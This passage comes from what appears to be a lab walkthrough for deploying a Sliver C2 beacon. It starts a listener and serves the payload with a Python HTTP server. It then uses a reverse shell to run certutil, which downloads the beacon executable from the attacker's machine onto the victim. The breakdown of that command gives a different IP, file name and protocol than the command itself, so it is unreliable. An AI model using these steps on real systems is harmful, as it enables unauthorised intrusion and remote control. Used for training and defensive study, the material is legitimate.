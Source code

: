 3) The netcat listener receives the shell, as seen in the screenshot below.

![Untitled](Screenshots/1-C2Framework/image48.webp)

4) We will use the reverse shell to deploy and execute our C2 beacon/payload.

## Start the Sliver listener

In Sliver (on Kali Purple) start the listener by typing “http”.

```powershell
http
```

<aside>
💡

![Untitled](Screenshots/1-C2Framework/image49.webp)

</aside>

## **Deploy the payload to the victim**

Ensure the web server is still active on Kali Purple. If not, restart it.

```powershell
python3 -m http.server 8000
```

Go to the reverse shell and type the following command to move our C2 beacon to the compromised machine. (Substitute the name of your payload.)

```powershell
certutil -urlcache -f http://10.0.2.5:8000/FRONT_BOTANY.exe FRONT_BOTANY.exe

```

The command is using **`certutil`** to download a file from the Sliver server and cache it locally. Here's a breakdown of the command:

1. **`certutil`**: This is the command-line utility used for various operations related to certificates and certificate services on Windows systems.
2. **`urlcache`**: This option specifies that **`certutil`** should download content from a URL and cache it locally.
3. **`f`**: This option forces the download even if the URL's content is already cached.
4. **`https://192.168.1.198:8000/WARM_LUMBERMAN.exe`**: This is the URL from which the file **`WARM_LUMBERMAN.exe`** will be downloaded. It's accessed via HTTP and is hosted on the IP address 192.168.1.198, using port 8000.
5. **`WARM_LUMBERMAN.exe`**: This is the name of the file that will be saved locally. The file downloaded from the specified URL will be saved with this name.
